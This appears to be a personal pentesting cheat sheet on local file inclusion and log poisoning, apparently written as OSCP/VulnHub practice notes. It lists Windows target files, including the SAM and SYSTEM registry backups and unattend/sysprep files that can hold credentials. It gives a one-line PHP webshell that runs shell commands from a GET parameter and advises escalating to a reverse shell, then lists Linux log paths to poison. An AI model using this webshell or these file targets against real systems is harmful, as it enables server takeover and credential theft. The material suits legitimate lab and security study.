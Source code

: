 ```shell
# Windows files #
#################
c:/windows/system32/drivers/etc/hosts
c:/boot.ini
c:/inetpub/logs/logfiles
c:/inetpub/wwwroot/global.asa
c:/inetpub/wwwroot/index.asp
c:/inetpub/wwwroot/web.config
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system32/inetsrv/metabase.xml
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system volume information/wpsettings.dat
c:/system32/inetsrv/metabase.xml
c:/unattend.txt
c:/unattend.xml
c:/unattended.txt
c:/unattended.xml
c:/windows/repair/sam
c:/windows/repair/system

# https://novasky.medium.com/symfonos-4-walkthrough-lets-ffuf-dat-lfi-for-fuzz-sake-vulnhub-oscp-practice-37f75020a831

# http://ffuf.me
```
# *LFI*
## *log poisoining*
1. ***Use** various log files for potential inclusion* 
2. ***Use Repeater** to adjust the requests and **test a webshell***
```php
<?php echo system($_GET['cmd']); ?>
```
3. ***IF Success** , use appropriate payload to pass to the webshell cmd parameter to obtain a reverse-shell*
```shell
# Linux

# Apache2
/var/log/apache2/access.log
/var/log/apache2/access_log 

# Apache
/var/log/apache/access.log 
/var/log/apache/access_log 

# Httpd
/etc/httpd/logs/acces_log 
/etc/httpd/logs/error_log 

# others
/var/log/access_log
/var/log/auth.log
/var/log/xferlog
/var/log/vsftpd.log

```